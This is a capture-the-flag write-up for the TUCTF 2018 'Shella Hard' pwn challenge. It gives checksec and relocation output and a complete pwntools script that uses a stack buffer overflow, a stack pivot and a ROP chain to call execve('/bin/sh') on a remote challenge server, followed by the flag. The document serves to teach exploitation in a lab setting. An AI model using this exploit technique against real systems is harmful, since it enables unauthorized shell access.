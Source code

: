 [](ctf=tu-ctf-2018)
[](type=pwn)
[](tags=stack-pivot,buffer-overflow,rop)
[](tools=radare2,gdb-peda,pwntools,python)

# Shella Hard

We are given a [binary](../shella-hard) with `NX` enabled and a stack based buffer overflow.

```bash
vagrant@amy:~/share/shella_hard$ file shella-hard
shella-hard: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4bf12a273afc940e93699d77a19496b781e88246, not stripped
```

```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

The binary has `execve` in the binary's GOT which allows us to easily create a ROP chain to get a shell.

```bash
vagrant@amy:~/share/shella_hard$ objdump -R shella-hard

shella-hard:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049ffc R_386_GLOB_DAT    __gmon_start__
0804a00c R_386_JUMP_SLOT   read@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a014 R_386_JUMP_SLOT   execve@GLIBC_2.0
```

The initial read is too small for a ROP chain and therefore we have to retun to `read` and write our ROP chain using a stack pivot. Any 'rw-' section of the binary can be used for storing the ROP chain.

```python
from pwn import *

context(arch='i386', os='linux')
# p = process('./shella-hard')
p = remote('3.16.169.157', 12345)

execve = 0x08048320
cmd = 0x8048500 # /bin/sh
stack = 0x0804a000 + 600 # rw- + stack space. it's
# crashing in ld.so for some reason if stack space is small
read_main = 0x08048443 # lea eax, ebp-0x10

payload = ''
payload += 'a' * 0x10
payload += p32(stack) # overwrites ebp
payload += p32(read_main)
payload += p32(100)

p.sendline(payload)

payload = ''
payload += 'a' * 0x10
payload += 'a' * 4
payload += p32(execve)
payload += 'a' * 4
payload += p32(cmd)
payload += p32(0x0)
payload += p32(0x0)

p.sendline(payload)
p.interactive()
```

Flag
> TUCTF{175_wh475_1n51d3_7h47_c0un75}
